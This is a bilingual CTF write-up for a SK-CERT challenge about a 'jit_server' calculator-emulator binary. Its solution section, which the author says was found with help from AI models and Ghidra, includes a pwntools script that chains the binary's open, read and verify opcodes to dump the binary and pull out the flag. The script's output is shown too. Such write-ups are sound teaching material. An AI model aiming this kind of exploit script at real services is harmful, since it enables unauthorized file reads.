 # Zadanie

EN: The programmable calculator Calcunova Sigma can also load user data. This part of the functionality is handled by a component called /usr/local/bin/jit_server (binary attached). There is also a running version of this emulator that has been tampered with. Study your own copy of the binary, then use that knowledge to identify what's wrong with the production instance running at exp.cybergame.sk:7042.

SK: Programovateľná kalkulačka Calcunova Sigma dokáže načítavať aj používateľské dáta. Túto časť funkcionality zabezpečuje komponent s názvom /usr/local/bin/jit_server (binárka je priložená). Existuje aj spustená verzia tohto emulátora, ktorú niekto úmyselne upravil. Preskúmaj vlastnú kópiu binárky a využitím nadobudnutých poznatkov zisti, čo je zlé s produkčnou inštanciou bežiacou na adrese exp.cybergame.sk:7042.

`exp.cybergame.sk:7042`

**Súbory**

- jit_server

## Riešenie

Vzhľadom na nedostatok času z dôvodu doháňania pracovného a súkromého života doplním tento write-up neskôr, keď budem mať viac času. Túto úlohu som taktiež zvládol vďaka kombinácii ChatGPT, Gemini a Claude - hlave Calude v spolupráci s ghidrou a MCP.. V skratke boli tam tri fukncie, ktoré sa zavolali podľa toho aký opcode sa zadal do vstupu binárke.. Boli tri, A3, CC a FF, A3 sa správal ako open(), CC ako read() a FF ja akýsi verify, ktorému musíme zadať magic value. read myslím printuje 0x400 bajtov. V zadaní bola cesta k binárke, takže ako argument pre open dáme cestu k binárke terminovanú nullbajtom of course, potom cc00 tolkokrat aby sme printli celu binarku a na koniec posleme megic bajt ab sa to vobec vykanalo.

Tu je skript.

```python
from pwn import *
import struct

# pripojenie
conn = remote('127.0.0.1', 1337)

payload = b'\xa3'
payload += b'/usr/local/bin/jit_server\x00'
payload += b'\x00'
repeat_count = 0x150000 // 0x400
payload += b'\xcc\x00' * repeat_count
payload += b'\xff'
payload += struct.pack('<I', 0x5a94125d)

# pošli payload
conn.send(payload)

try:
    response = conn.recvall(timeout=2)
    s = response.decode(errors='ignore')
    idx = s.find('U0st')
    if idx != -1:
        print("="*50)
        print(f"Flag:\n{s[idx:idx+50]}")
        print("="*50)
    # nič sa netlačí, ak substring nebol nájdený
except Exception as e:
    print(f"[*] Chyba: {e}")
finally:
    conn.close()

```

Výstup

```
[+] Opening connection to 127.0.0.1 on port 1337: Done
[+] Receiving all data: Done (1.31MB)
[*] Closed connection to 127.0.0.1 port 1337
==================================================
Flag:
U0stQ0VSVHtSRURBQ1RFRH0=function not implementedle
==================================================
```

`U0stQ0VSVHtSRURBQ1RFRH0=` je `SK-CERT{REDACTED}`. V čase písania writeupu už server hry nebol dostupný



## Vlajka

    SK-CERT{why_w0uld_y0u_u53_llvm???}

